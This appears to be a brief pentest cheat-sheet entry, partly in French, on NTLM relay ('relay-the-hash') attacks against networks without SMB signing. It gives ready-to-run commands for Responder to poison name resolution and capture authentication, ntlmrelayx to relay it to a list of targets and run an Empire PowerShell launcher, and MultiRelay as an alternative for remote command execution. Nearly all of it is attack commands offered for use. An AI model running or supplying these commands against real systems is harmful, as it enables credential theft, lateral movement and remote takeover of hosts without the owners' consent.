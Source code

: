 # Relay-the-hash

## prereqis: pas de smbsigning

```sh
python Responder.py -I <interface> -r -d -w
ntlmrelayx.py -tf targets.txt -c <insert your Empire Powershell launcher here>
```

## Alternative

```sh
MultyRelay.py -t <cible> -u ALL -c command
```
